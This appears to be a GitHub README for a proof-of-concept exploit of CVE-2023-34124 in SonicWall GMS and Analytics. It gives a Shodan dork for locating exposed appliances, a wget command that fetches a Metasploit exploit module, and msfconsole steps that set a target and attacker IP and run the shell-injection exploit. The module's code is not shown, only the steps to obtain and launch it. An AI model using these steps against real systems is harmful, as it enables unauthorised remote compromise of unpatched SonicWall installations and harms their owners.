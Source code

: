 # CVE-2023-34124

![](https://img.shields.io/static/v1?label=Product&message=Sonicwall&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=GMS:%209.3.2-SP1%20and%20earlier;%20Analytics:%202.5.0.4-R7%20and%20earlier&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Authentication%20Bypass&color=red)

- Shodan dork:
```
http.favicon.hash:631108382
```	
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Sonicwall_Shell_Injection/sonicwall_shell_injection_cve_2023_34124.rb
```
```
cp sonicwall_shell_injection_cve_2023_34124.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
### Metasploit-framework usage
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/sonicwall_shell_injection_cve_2023_34124
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```

